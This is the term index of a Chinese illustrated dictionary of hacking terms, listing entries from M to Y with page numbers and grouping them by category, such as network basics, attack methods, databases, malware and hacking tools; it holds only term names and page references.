- MDA 黑客技术基础 176
- MDB 黑客技术基础 176
- MEDIA 服务器 黑客技术基础 176
- MEMCPY 程序语言与开发 176
- MePIS 操作系统及其相关 176
- MSF 黑客工具 177
- Metasploit Framework 黑客工具 177
- MFT 操作系统及其相关 180
- Microsoft 特定名称 181
- Microsoft Visual Studio 程序语言与开发 181
- Microsoft Visual Studio “WMI Object Broker” 控件代码执行漏洞 安全技术 181
- MIME 黑客技术基础 181
- MiniQQ 应用程序 182
- MMC 控制台 操作系统及其相关 182
- MODEM 黑客技术基础 183
- MOV 调试技术，操作系统及其相关 183
- MS-DOS 操作系统及其相关 183
- MSConfig 操作系统及其相关 183
- MSDN 程序语言与开发 184
- MSHTA 操作系统及其相关 184
- MSJ 特定名称 185
- MSN Messenger 应用程序 185
- Msn Chat Monitor 黑客工具 185
- MSSQL 数据库 185
- MSSQL 注入 攻击方法与行为 185
- Mstsc 操作系统及其相关 193
- MTA 黑客技术基础 193
- MyCCL 应用程序 193
- MySpace 特定名称 194
- MySQL 数据库 194

### N

- N.C.P.H 脚本杀手 应用程序 195
- NAPT 黑客技术基础 195
- NASM 程序语言与开发 196
- NAT 黑客技术基础 196
- NAT 配置 黑客技术基础 197
- Nautilus 操作系统及其相关 198
- NBSI 黑客工具 198
- Nemesis 黑客工具 199
- Neolite 应用程序 199
- Nessus 黑客工具 199
- NetBSD 操作系统及其相关 200
- Netfilter/iptables 安全技术 200
- NC 黑客工具 201
- NetCat 黑客工具 201
- NetBIOS 黑客技术基础 202
- Netscape 应用程序 202
- NetSpear2006 黑客工具 203
- NETSPY 黑客工具 203
- Netstumbler 应用程序 203
- NetXray 应用程序 203
- NIDS 安全技术 204
- Nikto 黑客工具 204
- Nmap 黑客工具 205
- NOP 程序语言与开发 205
- nProtect 键盘加密技术 安全技术 205
- NSPACK 加密解密 205
- NS 记录 黑客技术基础 206
- NTDLL 操作系统及其相关 206
- NTFS 操作系统及其相关 206
- NTFS 分区 操作系统及其相关 208
- NTLM 协议 操作系统及其相关 208
- NTOP 应用程序 209
- NTLM 密码散列 操作系统及其相关 209
- NTPacker 加密解密 210
- NTSD 操作系统及其相关 210
- NULL 特定名称 210
- Null News 脚本 210

### O

- OA 特定名称 211
- Oblog 脚本 211
- OCX 操作系统及其相关 211
- OC 偏移量转换器 加密解密 212
- OD 应用程序，加密解密 212
- ODAY 特定名称 212
- ODF 格式 操作系统及其相关 212
- OEP 加密解密 213
- Office 应用程序 213
- OLE/COM 程序语言与开发 214
- OllyDbg 应用程序，加密解密 214
- OmniPeek 应用程序 215
- OmiIft 应用程序 215
- Open3389 黑客工具 215
- OpenBSD 操作系统及其相关 216
- OpenDocument 格式 操作系统及其相关 216
- OpenGL 程序语言与开发 216
- OpenSolaris 操作系统及其相关 216
- OpenSSH 安全技术 217
- OpenSSL 安全技术 217
- OpenSUSE 操作系统及其相关 218
- OpenVPN LD_PRELOAD 环境变量传输漏洞 安全技术 218
- Opera 应用程序 218
- Oracle 数据库 219
- ORDER BY 数据库 219
- OSDL 特定名称 219
- OSI 特定名称 219
- OVERLAY 加密解密 220

### P

- P2P 黑客技术基础 220
- PC-DOS 操作系统及其相关 221
- PCAnywhere 应用程序 221
- PCShare 黑客工具 222
- PDF2Word 应用程序 223
- PDF 格式 操作系统及其相关 223
- PDF 阅读器 应用程序 223
- PE-Editor 应用程序 223
- PE Sniffer 加密解密 224
- PECompact 加密解密 224
- PEiD 应用程序，加密解密 224
- Penumbra 黑客工具 224
- Perl 程序语言与开发，脚本 224
- Perl 解释器 程序语言与开发 225
- Petite 应用程序 225
- PE 文件 操作系统及其相关 225
- PFX 安全技术 225
- PGP 安全技术 225
- Phishing 特定名称 226
- PHP 脚本 226
- PHP 注入 攻击方法与行为 227
- PHP3 脚本 233

# 黑客术语图文辞典

### P

- phpBB 脚本 233
- phpArticle 脚本 234
- PHPKit 脚本 234
- phpMyAdmin 脚本 234
- PHPShell 渗透技术 234
- PhpSpy 黑客工具 234
- PHPWind 脚本 234
- PHPWindBLOG 脚本 234
- PHP 的 magic_quotes_gpc=on 脚本 235
- PHP 探针 脚本 235
- PID 操作系统及其相关 235
- Ping 黑客技术基础 235
- PIN 安全技术 237
- PNG 操作系统及其相关 237
- PortRelay 端口数据转发 黑客工具 237
- PortScan 黑客工具 237
- POP3 黑客技术基础 238
- POST 黑客技术基础 238
- POWEROFF 特定名称 238
- PPTP 黑客技术基础 238
- Private exe Protector 应用程序，调试技术 239
- Privoxy 应用程序 239
- Promiscuous Mode 特定名称 239
- PS AUX 操作系统及其相关 239
- PSAPI 操作系统及其相关 240
- Pskill 黑客工具 240
- Pslist 黑客工具 240
- PUBLIC 数据库，特定名称 240
- Pubwin 黑客技术基础 240
- Pubwin 服务器 黑客技术基础 241
- PUT 黑客技术基础 241
- PuTTY 应用程序 241
- PWDUMP4 黑客工具 241
- PYOPENSSL 应用程序 241
- Python 程序语言与开发 242

### Q

- QEMU 操作系统及其相关 242
- QQ 应用程序 243
- QQAV 应用程序 243
- QQSniffer 黑客工具 243
- QQ 病毒 病毒与恶意软件 243
- QQ 第六感 黑客工具 244
- QQ 木马 病毒与恶意软件 244
- QQ 尾巴 病毒与恶意软件 244
- Query user 操作系统及其相关 244
- Quick Unpack 加密解密 245
- Q 币 特定名称 245

### R

- Registry Monitor 应用程序 245
- Radmin 应用程序 246
- Radius 黑客技术基础 246
- RAR 操作系统及其相关 247
- RawSocket 程序语言与开发 247
- RC4、BLOWFISH、DES、TEA 安全技术 247
- RDP 黑客技术基础 247
- RARP 黑客技术基础 248
- ReactOS 操作系统及其相关 248
- RealPlayer 应用程序 248
- RealPlayer 溢出漏洞 安全技术 248
- reboot 特定名称 249
- Received 字段 黑客技术基础 249
- RECOVERY CONSOLE 操作系统及其相关 249
- Recton 程序种植者 黑客工具 249
- Red Flag DC Server 5.0 操作系统及其相关 250
- Red Hat 操作系统及其相关 250
- Red Hat Fedora 操作系统及其相关 250
- Regsnap 应用程序 251
- REG 文件 操作系统及其相关 251
- Rem 操作系统及其相关 251
- RemoveService 应用程序 251
- Request 黑客技术基础，脚本 252
- Resource Kit 程序语言与开发 252
- RESSCOPE 应用程序 252
- RING0 操作系统及其相关 252
- RING3 操作系统及其相关 253
- RIP 黑客技术基础 253
- RJ-45 接口 黑客技术基础 253
- ROM 硬件 254
- Root 特定名称 254
- Rootkit 渗透技术 254
- RPC 黑客技术基础 255
- RPC DCOM 操作系统及其相关 256
- RPM 操作系统及其相关 256
- RSA 算法 安全技术 256
- RSS 黑客技术基础 256
- RST 标志 黑客技术基础 257
- RTSP 协议 黑客技术基础 257
- Runas 操作系统及其相关 257
- RUNIT 应用程序 258

### S

- SA 数据库 258
- Safari 黑客技术基础 261
- Safe mode 特定名称 262
- Sam Spade 应用程序 262
- Samba 操作系统及其相关 263
- Samba 服务器 操作系统及其相关 263
- SAMETIME 应用程序 263
- SAM 操作系统及其相关 263
- SA 空口令 数据库 264
- SchedExec 黑客工具 264
- Scheduler 服务 操作系统及其相关 264
- Screnc.exe 操作系统及其相关 264
- Script 脚本 265
- SCSI 硬件 265
- SEAL 安全技术 266
- Secure CRT 应用程序 266
- SELinux 操作系统及其相关 266
- Serv-U 黑客技术基础 267
- Serv-U 本地权限提升漏洞 渗透技术 269
- Serv-U 纯数字密码爆破工具 黑客工具 272
- Serv 服务 操作系统及其相关 272
- Service Pack 4 操作系统及其相关 272
- Serv-U 提权工具 黑客工具 272
- Session 黑客技术基础 272
- Session ID 黑客技术基础 273
- Session 劫持 攻击方法与行为 273
- Session 欺骗 攻击方法与行为 273
- SFTP 应用程序 273
- SGID/SUID 操作系统及其相关 274
- Shed 黑客工具 275
- Shell 黑客技术基础 275
- ShellCode 渗透技术 276
- shutdown 特定名称 276
- Simplog 脚本 276
- Singularity 操作系统及其相关 277
- SIM 特定名称 277
- Skype 特定名称 277
- Slammer 病毒与恶意软件 278
- Smart NTFS Recovery 应用程序 278
- Smarty 模板 黑客技术基础 278
- SMB 黑客技术基础 278
- SMB 会话劫持 渗透技术 279
- SMTP 黑客技术基础 285
- Smurf 攻击 攻击方法与行为 285
- Sniff 黑客技术基础 286
- Sniffer 黑客技术基础 287
- Sniffer Pro 应用程序 287
- SNMP 黑客技术基础 288
- Snort 应用程序，安全技术 289
- Sockcap 程序语言与开发 290
- Socks 代理 黑客技术基础 290
- Sock4/5 黑客技术基础 290
- Socket 程序语言与开发 291
- SoftDefender 应用程序 291
- Solaris 操作系统及其相关 291
- SOPHOS 特定名称 292
- SPAM 特定名称 292
- SQL 数据库 292
- SQL Server 数据库 293
- SQL INJECTION 攻击方法与行为 293
- SQL 注入 攻击方法与行为 294
- SSH 安全技术 295
- SSID 黑客技术基础 296
- SSL 安全技术 296
- SSL VPN 安全技术 298
- SSPORT 黑客工具 298
- STRING 类型 程序语言与开发 298
- SEH 程序语言与开发 298
- STUD_PE 应用程序 299
- Sudo 操作系统及其相关 299
- SUN 特定名称 299
- SUNDY 应用程序 299
- SUNOS 操作系统及其相关 300
- SuperRam 应用程序 300
- SuperScan 黑客工具 300
- SUSE 操作系统及其相关 302
- SVCHOST 操作系统及其相关 302
- SWAP 操作系统及其相关 303
- sXid 应用程序 304
- SYMANTEC 特定名称 304
- SYN/ACK 标志 黑客技术基础 304
- SYN 半开放扫描 黑客技术基础 304
- Sysadmin 权限 数据库 305
- Syslogd 操作系统及其相关 305
- system 特定名称 305
- system.ini 操作系统及其相关 305
- system 权限 操作系统及其相关 306

### T

- T-CMD 黑客工具 307
- TAR 软件包 操作系统及其相关 307
- TC++ 程序语言与开发 307
- TCP 黑客技术基础 307
- TCP/IP 黑客技术基础 310
- TCP 连接状态 黑客技术基础 310
- TCP 三次握手 黑客技术基础 311
- TCPDUMP 应用程序 312
- TEFS 应用程序 312
- Teleport Ultra 应用程序 312
- Telnet 黑客技术基础 313
- tElock 应用程序，加密解密 314
- Terminal Services 操作系统及其相关 315
- Terminal Services 的端口 操作系统及其相关 319
- TFTP 黑客技术基础 319
- THC-Hydra 黑客工具 320
- THC Amap 黑客工具 320
- Theft 黑客工具 320
- TIME-WAIT 黑客技术基础 321
- Tiny Firewall 应用程序 321
- TLS 安全技术 321
- Tomcat 黑客技术基础 322
- Tool Kids 特定名称 322
- Torrent 黑客技术基础 322
- Total Commander 应用程序 322
- TouchNet Browser 应用程序 323
- Tracert 命令 黑客技术基础，渗透技术 323
- TTL 黑客技术基础 324
- type 命令 操作系统及其相关 324

### U

- UBBCode 黑客技术基础 325
- UBB 标签 黑客技术基础 325
- Ubuntu 操作系统及其相关 325
- UDP 黑客技术基础 326
- UDP 扫描 黑客技术基础 326
- UID 安全技术 327
- UltraEdit 应用程序 327
- UNHIDE 黑客工具 327
- Unicode 黑客技术基础 327
- Unicode 漏洞 安全技术 328
- UNION 数据库 329
- Universal Extractor 应用程序 329
- UNIX 操作系统及其相关 329
- UNIX unzip 应用程序 329
- UPDATE 特定名称 330
- UPX 加密解密 330
- UPX Shell 加密解密 330
- URL 黑客技术基础 330
- URL 编码 黑客技术基础 331
- URLSNARF 应用程序，安全技术 331
- URL 欺骗 攻击方法与行为 331
- user32 操作系统及其相关 332
- Users 组 操作系统及其相关 332
- UTF-8 黑客技术基础 332
- U 盘 硬件 332

### V

- Vanquish 黑客工具 333
- VB Script 脚本 333
- VB6 程序语言与开发 333
- VBE 操作系统及其相关 333
- vBulletin 论坛漏洞利用程序 黑客工具 333
- VC 编译器 程序语言与开发 333
- VERYPDF PDF STAMP 应用程序 333
- view-source 黑客技术基础 334
- Vista 操作系统及其相关 334
- VB 程序语言与开发 334
- VC 程序语言与开发 335
- VLAN 黑客技术基础 335
- VIDC（包括服务和客户端部分）应用程序 335
- VML 程序语言与开发 335
- VMProtect 应用程序 336
- Vmtools 操作系统及其相关 336
- VMware 操作系统及其相关 336
- VMware WorkStation 操作系统及其相关 337
- VOD 黑客技术基础 337
- VPN 黑客技术基础 337
- VsFTP 操作系统及其相关 337
- VTP 模式 黑客技术基础 338

### W

- W32Dasm 程序语言与开发 338
- WAN 黑客技术基础 338
- WAP 黑客技术基础 339
- WEB INJECTION 攻击方法与行为 339
- WEBADMIN2Y 程序包 黑客工具 339
- WEBDAV 黑客技术基础 339
- WEBmin 操作系统及其相关 339
- WEBShell 黑客技术基础 340
- WEB 标准 特定名称 340
- WEB 服务器 黑客技术基础 341
- WEB 后门 黑客技术基础 341
- WEB 脚本代理 黑客技术基础 341
- WED 黑客工具 341
- Wengo 应用程序 342
- wget 黑客工具 342
- WHOIS 黑客技术基础 342
- Win2003 操作系统及其相关 342
- Win2K 操作系统及其相关 343
- Win32 API 操作系统及其相关 343
- WinArpAttacker 黑客工具 343
- Windows Shell 渗透技术 343
- Windows Defender 应用程序 343
- Windows 按钮突破专家 应用程序 343
- Windows 脚本宿主 操作系统及其相关 344
- Windows 优化大师 应用程序 344
- WINEGGDROP 黑客工具 344
- WinHex 应用程序 344
- WinInfo 黑客工具 345
- Winlogon 操作系统及其相关 345
- Winpcap 黑客技术基础，程序语言与开发 345
- WINRAR 应用程序 346
- WINS 黑客技术基础 346
- WinShell 黑客工具 347
- WinSocket 编程 程序语言与开发 347
- WinTopo Pro 应用程序 347
- WIS 黑客工具 348
- WMA 操作系统及其相关 348
- WMF 操作系统及其相关 348
- WMIC 操作系统及其相关 348
- WMV 操作系统及其相关 349
- WIKI 黑客技术基础 350
- WordPress 脚本 350
- WScript 脚本 350
- WScript.Shell 脚本 351
- WSH 脚本 351
- WSockExpert 应用程序 351
- Wuauclt 操作系统及其相关 351
- WWW 黑客技术基础 351
- WWWROOT 黑客技术基础 352

### X

- X-Windows 操作系统及其相关 352
- X-DOOR 远程监控程序 黑客工具 352
- X-SCAN 安全技术，应用程序 353
- X-Sniffer 黑客工具 353
- XDos 操作系统及其相关 353
- XML 黑客技术基础 354
- XMLHTTP 黑客技术基础 354
- XOR 运算 程序语言与开发 354
- xp_cmdshell 数据库，渗透技术 354
- xp_regread 数据库 355
- XP2 操作系统及其相关 355
- XPLITE PROFESSIONAL 应用程序 355
- XSS 攻击方法与行为 356
- XSL 黑客技术基础 359

### Y

- YODA'S CRYPTOR 加密解密 360
- Yoda's Protector 加密解密 360

## 技术分类查询目录 B

### 黑客技术基础

- 21 端口 23
- 23 端口 23
- 135 端口 23
- 139 端口 23
- 389 端口 23
- 445 端口 23
- 1433 端口 24
- 3306 端口 24
- 3389 端口 24
- 127.0.0.1 27
- 2 级代理 27
- 3389 连接器 28
- A 类地址 28
- ACK 29
- ACK 风暴 30
- ACTIVEX 插件 31
- Admin（Administrator）32
- ADSL 32
- ARP 35
- ARP 数据包 37
- ARP 欺骗 38
- ANONYMOUS 44
- ASCII 码 45
- APACHE 45
- ASP 加密 48
- Base64 编码 50
- B/S 模式 52
- BBS 52
- BIND 53
- BIT 54
- BOOTP 协议 55
- BXP 架构 57
- B 类地址 58
- C/S 模式 58
- cdp 67
- CGI 67
- Challenge/Response 响应机制 69
- CLOSE-WAIT 70
- ColdFusion 71
- CONTENT-LENGTH 72
- COOKIE 73
- Cookie 欺骗 73
- CRC 74
- CSS 75
- DMZ 82
- DHCP（服务器）83
- DLL 木马 85
- DSL 87
- DNS 87
- DOMAIN 90
- E-Mail 92
- E-Mail 欺骗 93
- ECHO 数据包 93
- ED2K 连接 94
- EIGRP 95
- ESMTP 97
- eWebEditor 99
- FIN 包 105
- FORM 106
- Frame 106
- FRAMEBORDER 107
- FTP 协议 108
- FTP 服务器 109
- GET 111
- GINA 木马 113
- GOOGLE 116
- GOOGLE TALK 119
- HEAD 124
- Hex 124
- HOST 126
- HOTMAIL 126
- HTA 127
- HTML 127
- HTML 字符 128
- HTTP 128
- HTTPD 129
- HTTP 代理 129
- HTTP 隧道技术 129
- HTTP 头 130
- ICMP 132
- ICS 133
- IDA 133
- IE 网页木马 135
- IFRAME 135
- IIS 135
- internet 139
- ICANN 140
- INTERNET EXPLORER 141
- IPC$ 142
- IP 145
- IP 地址 146
- IPV4 与 IPV6 147
- IP 限制 150
- IRC 150
- ISAPI 150
- ISO 标准 151
- ISP 151
- L2TP 160
- LAMP 160
- LAN 161

# 黑客术语图文辞典

- LISTEN …… 166
- LM …… 167
- localhost …… 167
- MAC 协议 …… 171
- MAC 地址 …… 172
- MAC 广播包 …… 172
- Mambo …… 173
- MDA …… 176
- MDB …… 176
- MEDIA 服务器 …… 176
- MIME …… 181
- MODEM …… 183
- MTA …… 193
- NAPT …… 195
- NAT …… 196
- NAT 配置 …… 197
- NETBIOS …… 202
- NS 记录 …… 206
- P2P …… 220
- PING …… 235
- POP3 …… 238
- POST …… 238
- PPTP …… 238
- PUBWIN …… 240
- PUBWIN 服务器 …… 241
- PUT …… 241
- Radius …… 246
- RDP …… 247
- RARP …… 248
- Received 字段 …… 249
- REQUEST …… 252
- RIP …… 253
- RJ-45 接口 …… 253
- RPC …… 255
- RSS …… 256
- RST 标志 …… 257
- RTSP 协议 …… 257
- SAFARI …… 261
- SERV-U …… 267
- SESSION …… 272
- SESSION ID …… 273
- SHELL …… 275
- SMARTY 模板 …… 278
- SMB …… 278
- SMTP …… 285
- SNIFF …… 286
- SNIFFER …… 287
- SNMP …… 288
- SOCKS 代理 …… 290
- SOCKS4/5 …… 290
- SSID …… 296
- SYN/ACK 标志 …… 304
- SYN 半开放扫描 …… 304
- TCP …… 307
- TCP/IP …… 310
- TCP 连接状态 …… 310
- TCP 三次握手 …… 311
- TELNET …… 313
- TFTP …… 319
- TIME-WAIT …… 321
- TOMCAT …… 322
- torrent …… 322
- tracert 命令 …… 323
- TTL …… 324
- UBBCode …… 325
- ubb 标签 …… 325
- UDP …… 326
- UDP 扫描 …… 326
- UNICODE …… 327
- URL …… 330
- URL 编码 …… 331
- UTF-8 …… 332
- View-source …… 334
- VLAN …… 335
- VOD …… 337
- VPN …… 337
- VTP 模式 …… 338
- WAN …… 338
- WAP …… 339
- WEBDAV …… 339
- WEBSHELL …… 340
- WEB 服务器 …… 341
- WEB 后门 …… 341
- WEB 脚本代理 …… 341
- Whois …… 342
- WinPcap …… 345
- WINS …… 346
- WIKI …… 350
- www …… 351
- wwwroot …… 352
- XML …… 354
- XMLHTTP …… 354
- XSL …… 359

### 攻击方法与行为

- 00 替换法 …… 27
- ACK 扫描 …… 29
- CC（攻击） …… 65
- Chr() …… 68
- CHM 网页木马 …… 68
- Conn.asp 暴库法 …… 72
- Cookie 注入 …… 73
- CROSS SITE SCRIPT …… 74
- CSRF …… 75
- DoS …… 77
- DDoS 分布式拒绝服务攻击 …… 79
- DNS 欺骗 …… 87
- DRDoS 攻击 …… 91
- FAKE THE MAC ADDRESS …… 102
- FLASH 脚本的跨站漏洞 …… 106
- FTP 反弹 …… 109
- MAC 洪水攻击 …… 172
- MSSQL 注入 …… 185
- PHP 注入 …… 227
- SESSION 欺骗 …… 272
- SESSION 劫持 …… 273
- SMURF 攻击 …… 285
- SQL INJECTION …… 293
- SQL 注入 …… 294
- URL 欺骗 …… 331
- WEB INJECTION …… 339
- XSS …… 356

### 操作系统及其相关

- 32位以及64位系统 …… 27
- Admin（Administrator） …… 32
- Autorun.inf …… 49
- BASH …… 51
- Bat …… 52
- BERYL …… 53
- Boot.ini …… 55
- Chmod …… 68
- CHM …… 68
- ClipBook …… 69
- CLSID …… 70
- CMD …… 70
- Compiz Fusion …… 71
- Cron …… 74
- CRON JOB …… 74
- CSRSS …… 75
- Cygwin …… 75
- DIG 命令 …… 84
- DLL …… 84
- DOS …… 77
- DR-DOS …… 91
- Echo 命令 …… 93
- Ecos …… 94
- Everyone 权限 …… 99
- EXE …… 100
- EXT2 和 EXT3 …… 101
- FAT …… 102
- FAT32 …… 102
- Fedora …… 103
- FC …… 103
- Finger …… 105
- FreeBSD …… 107
- FREEDOS …… 107
- GINA …… 113
- GNOME …… 114
- GNU …… 115
- GNU Privacy Guard …… 115
- GOOGLE HACK …… 117
- GPEDIT.MSC …… 119
- Grub …… 120
- GUESTS 组 …… 120
- HOSTS 文件 …… 126
- ICO 文件 …… 133
- IIS …… 135
- IIS 来宾用户 …… 136
- Ipconfig …… 141
- IP Tables …… 145
- ISAPI …… 150
- ISO 文件 …… 151
- IIS 管理器 …… 151
- ITANIUM …… 151
- KDE …… 159
- KUBUNTU …… 160
- Lsass …… 162
- Linux …… 163
- LINUX KERNEL …… 164
- Linux 目录结构 …… 165
- LIVECD …… 166
- LMHOSTS …… 167
- LOGOFF …… 167
- LongHorn 任务管理器 …… 168
- LSB …… 169
- LSOF …… 170
- LTSP …… 170
- LVM …… 171
- MANDRIVA …… 173
- MAC OS …… 174
- MD 命令 …… 175
- MEPIS …… 176
- MFT …… 180
- MMC 控制台 …… 182
- MOV …… 183
- MS-DOS …… 183
- MSCONFIG …… 183
- Mshta …… 184
- MSTSC …… 193
- NAUTILUS …… 198
- NETBSD …… 200
- NTDLL …… 206
- NTFS …… 206
- NTFS 分区 …… 208
- NTLM 协议 …… 208
- NTLM 密码散列 …… 209
- NTSD …… 210
- OCX …… 211
- ODF 格式 …… 212
- OPENBSD …… 216
- OpenDocument 格式 …… 216
- OpenSolaris …… 216
- OPENSUSE …… 218
- PC-DOS …… 221
- PDF 格式 …… 223
- PE 文件 …… 225
- PID …… 235
- PNG …… 237
- PS AUX …… 239
- PSAPI …… 240
- QEMU …… 242
- query user …… 244
- RAR …… 247
- REACTOS …… 248
- RECOVERY CONSOLE …… 249
- Red Flag DC Server 5.0 …… 250
- Red Hat …… 250
- Red Hat Fedora …… 250
- REG 文件 …… 251
- REM …… 251
- RING0 …… 252
- RING3 …… 253
- RPC DCOM …… 256
- RPM …… 256
- RUNAS …… 257
- SAMBA …… 263
- Samba 服务器 …… 263
- SAM …… 263
- Scheduler 服务 …… 264
- screnc.exe …… 264
- SELinux …… 266
- Server 服务 …… 272
- SERVICE PACK 4 …… 272
- SGID/SUID …… 274
- Singularity …… 277
- Solaris …… 291
- SUDO …… 299
- SunOS …… 300
- SUSE …… 302
- SVCHOST …… 302
- SWAP …… 303
- syslogd …… 305
- system.ini …… 305
- SYSTEM 权限 …… 306
- TAR 软件包 …… 307
- Terminal Services …… 315
- Terminal Services 的端口 …… 319
- type 命令 …… 324
- Ubuntu …… 325
- Unix …… 329
- USER32 …… 332
- USERS 组 …… 332
- VBE …… 333
- Vista …… 334
- VMtools …… 336
- VMware …… 336
- VMware WorkStation …… 337
- VsFTP …… 337
- Webmin …… 339
- Win2003 …… 342
- Win2K …… 343
- Win32API …… 343
- Windows 脚本宿主 …… 344
- Winlogon …… 345
- WMA …… 348
- WMF …… 348
- WMIC …… 348
- WMV …… 349
- WUAUCLT …… 351
- X-Windows …… 352
- XDOS …… 353
- XP2 …… 355

### 脚本

- ASP …… 47
- ASP 脚本 …… 48
- Conn.asp …… 72
- Cscript …… 74
- DISCUZ …… 84
- document.write() …… 90
- DVBBS …… 92
- EVAL …… 99
- Execute() 函数 …… 100
- FSO …… 108
- IPB 论坛 …… 141
- JavaScript …… 152
- js …… 155
- JAVA 脚本 …… 153
- NULL NEWS …… 210
- OBLOG …… 211
- PERL …… 224
- PHP …… 226
- PHP3 …… 233
- phpBB …… 233
- PhpArticle …… 234
- PHPKit …… 234
- phpmyadmin …… 234
- PHPWIND …… 234
- PHPWINDBLOG …… 234
- PHP 的 magic_quotes_gpc=on …… 235
- PHP 探针 …… 235
- REQUEST …… 252
- Script …… 265
- SIMPLOG …… 276
- VBScript …… 333
- WORDPRESS …… 350
- WScript …… 350
- WScript.Shell …… 351
- WSH …… 351

### 数据库

- Access …… 28
- DATABASE …… 76
- DB_OWNER …… 76
- Drop …… 91
- DSN 连接 …… 92
- GRANT 命令 …… 119
- IBM DB2 …… 131
- LOAD_FILE …… 167
- MSSQL …… 185
- MySQL …… 194
- Oracle …… 219
- ORDER BY …… 219
- PUBLIC …… 240
- SA …… 258
- SA 空口令 …… 264
- SQL …… 292
- SQL Server …… 293
- sysadmin 权限 …… 305
- UNION …… 329
- xp_cmdshell …… 354
- XP_REGREAD …… 355

### 病毒与恶意软件

- ARP 病毒 …… 36
- BOTNET …… 56
- CIH …… 76
- DLL 木马 …… 85
- QQ 病毒 …… 243
- QQ 木马 …… 244
- QQ 尾巴 …… 244
- Slammer …… 278

### 应用程序

- Achilles …… 28
- Advanced AccessPassword Recovery …… 33
- AMSN …… 35
- Armadillo Professional …… 35
- AntiCrack/ACProtect 2.0 …… 44
- ANTISPYWARE …… 45
- CCProxy …… 65
- DATASAFE …… 76
- DELUSER …… 82
- Ehttp …… 96
- ETHEREAL …… 98
- EXESCOPE …… 100
- exe2bat …… 100
- FGET-FTP …… 103
- FHS …… 104
- File Monitor …… 104
- FILEINFO …… 104
- FinalData …… 104
- Firefox …… 106
- GAIM …… 110
- GFI LANGUARD …… 111
- GHOST …… 112
- Ghul 探绑检测工具 …… 113
- GIZMO …… 113
- GLOBALSCAPE SECURE FTP SERVER …… 114
- Hotfix …… 126
- Hying's PE-Armor …… 130
- IceSword …… 131
- IExpress 程序 …… 134
- IMPERATOR …… 138
- INTERNET ANONYM PRO …… 140
- Ipchains …… 144
- IRIS …… 150
- K-Meleon CCF ME …… 157
- KISMET …… 159
- LeapFTP …… 163
- LumaQQ …… 171
- McAfee …… 174
- MiniQQ …… 182
- MSN …… 185
- MyCCL …… 193
- N.C.P.H 脚本杀手 …… 195
- Neolite …… 199
- Netscape …… 202
- Netstumbler …… 203
- NetXray …… 203
- Ntop …… 209
- OD …… 212
- Office …… 213
- OllyDbg …… 214
- OmniPeek …… 215
- Omziff …… 215
- Opera …… 218
- PCAnywhere …… 221
- PDF2word …… 223
- PDF 阅读器 …… 223
- PE-editor …… 223
- PEiD …… 224
- Petite …… 225
- Private exe Protector …… 239
- Privoxy …… 239
- PuTTY …… 241
- Pyopenssl …… 241
- QQ …… 243
- QQAV …… 243
- Registry Monitor …… 245
- Radmin …… 246
- RealPlayer …… 248
- Regsnap …… 251
- Removeservice …… 251
- RESSCOPE …… 252
- RUNT …… 258
- Sam Spade …… 262
- SAMETIME …… 263
- Secure CRT …… 266
- SFTP …… 273
- Smart NTFS Recovery …… 278
- Sniffer Pro …… 287
- Snort …… 289
- SoftDefender …… 291
- STUD_PE …… 299
- SUNDY …… 299
- SuperRam …… 300
- sXid …… 304
- TCPDUMP …… 312
- TEFS …… 312
- TELEPORT ULTRA …… 312
- TELOCK …… 314
- Tiny Firewall …… 321
- Total Commander …… 322
- TouchNet Browser …… 323
- UltraEdit …… 327
- Universal Extractor …… 329
- UNIX unzip …… 329
- URLSNARF …… 331
- VERYPDF PDF STAMP …… 333
- VIDC（包括服务器端两部分） …… 335
- VMProtect …… 336

## 【黑客术语图文辞典】

- W32asm 338
- Wengo 342
- Windows Defender 343
- Windows 按钮突破专家 343
- Windows 优化大师 344
- WinHex 344
- WINRAR 346
- WinTopo Pro 347
- WSockExpert 351
- X-Scan 353
- XPLITE PROFESSIONAL 355
- NETSPY 203
- Nikto 204
- Nmap 205
- open3389 215
- PCShare 222
- Penumbra 224
- PhpSpy 234
- PortRelay 端口数据转发 237
- PortScan 237
- Pskill 240
- Pslist 240
- PWDUMP4 241
- Qosniffer 243
- QQ 第六感 244
- Recton 程序种植者 249
- SchedExec 264
- Serv-U 纯数字密码爆破工具 272
- Serv-U 提权工具 272
- Sned 275
- SSPORT 298
- SuperScan 300
- T-CMD 307
- THC-Hydra 320
- THC Amap 320
- Theef 320
- UNHIDE 327
- Vanquish 333
- VBULLETIN 论坛漏洞利用程序 333
- WEBADMIN2Y 程序包 339
- WED 341
- wget 342
- WinAPAttacker 343
- WINEGGDROP 344
- Wininfo 345
- WinShell 347
- WIS 348
- X-DOOR 远程监控程序 352
- X-Sniffer 353

### 黑客工具

- AhBomb 33
- AIO 33
- Aircrack 34
- Airsnort 34
- ArpSniffer 45
- ASP 木马 48
- ANSKYA DOWNLOADER LITE 49
- CA 60
- CAIN（CAIN AND ABEL）61
- CASI 63
- ClearLOG 69
- CNNSC 远程控制 71
- Deception 81
- DSNIFF 92
- Ettercap 98
- Findpass 105
- FindPassword 105
- Fragrouter 106
- Furax 109
- GETWEBShell 111
- GYSI 121
- HackerDefender 121
- Hack's door 121
- HackerSmacker 122
- HDSI 123
- Hping2 126
- htran 128
- Hydra 130
- IE Passview 134
- John The Ripper 153
- LCX.exe 162
- L0PHTCRACK 168
- Mailsnarf 172
- MD5 CRACK 2.3 175
- MD5SHA 高级解密器 176
- MSF 177
- Metasploit Framework 177
- MSN CHAT MONITOR 185
- NBSI 198
- Nemesis 199
- NESSUS 199
- NC 201
- NetCat 201
- NetSpear2006 203
- NETSPY 203
- Nikto 204
- Nmap 205
- open3389 215
- PCShare 222
- Penumbra 224
- PhpSpy 234
- PortRelay 端口数据转发 237
- PortScan 237
- Pskill 240
- Pslist 240
- PWDUMP4 241
- Qosniffer 243
- QQ 第六感 244
- Recton 程序种植者 249
- SchedExec 264
- Serv-U 纯数字密码爆破工具 272
- Serv-U 提权工具 272
- Sned 275
- SSPORT 298
- SuperScan 300
- T-CMD 307
- THC-Hydra 320
- THC Amap 320
- Theef 320
- UNHIDE 327
- Vanquish 333
- VBULLETIN 论坛漏洞利用程序 333
- WEBADMIN2Y 程序包 339
- WED 341
- wget 342
- WinAPAttacker 343
- WINEGGDROP 344
- Wininfo 345
- WinShell 347
- WIS 348
- X-DOOR 远程监控程序 352
- X-Sniffer 353

### 安全技术

- ACL 30
- Acunetix WVS 31
- Anti-Virus 44
- CA 60
- CAST-256 算法 64
- CCL 64
- DEP 保护系统 83
- EFS 数据加密 95
- gFTP 远程目录遍历漏洞 112
- GHOST 112
- GNUPG 115
- HASH 122
- HIDS 124
- HOOK 125
- HOOK API 125
- Hotfix 126
- HTTP 响应头拆分漏洞 130
